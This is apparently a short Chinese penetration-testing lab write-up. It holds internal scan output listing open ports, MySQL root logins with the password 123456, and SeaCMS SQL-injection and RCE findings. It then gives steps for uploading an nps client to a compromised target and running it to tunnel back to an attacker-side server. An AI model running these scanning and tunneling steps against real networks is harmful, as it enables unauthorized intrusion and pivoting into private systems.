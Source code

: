```
10.10.20.100:80 open
10.10.20.88:8080 open
10.10.20.31:80 open
10.10.20.1:80 open
10.10.20.1:22 open
10.10.20.88:8009 open
10.10.20.231:3306 open
10.10.20.166:3306 open
[+] mysql 10.10.20.166:3306:root 123456
[+] mysql 10.10.20.231:3306:root 123456
[*] WebTitle http://10.10.20.31        code:200 len:21280  title:海洋CMS
[*] WebTitle http://10.10.20.1         code:200 len:21280  title:海洋CMS
[*] WebTitle http://10.10.20.100       code:200 len:3270   title:后台系统
[+] PocScan http://10.10.20.31 poc-yaml-seacms-sqli 
[+] PocScan http://10.10.20.31 poc-yaml-seacms-v654-rce 
[+] PocScan http://10.10.20.1 poc-yaml-seacms-sqli 
[+] PocScan http://10.10.20.1 poc-yaml-seacms-v654-rce 
[*] WebTitle http://10.10.20.88:8080   code:200 len:11230  title:Apache Tomcat/8.0.43
```

# 内网nps穿透

kali `./nps` 启动nps，访问 `ip:8080` 进入nps

账号admin密码123

新建nps客户端

向靶机上传nps客户端解压

执行客户端命令

```bash
tar -zxvf linux_amd64_client.tar.gz
./npc -server=192.168.198.232:8024 -vkey=hre60k2m39vxdgta -type=tcp
```

配置 Windows 上代理客户端访问内网IP
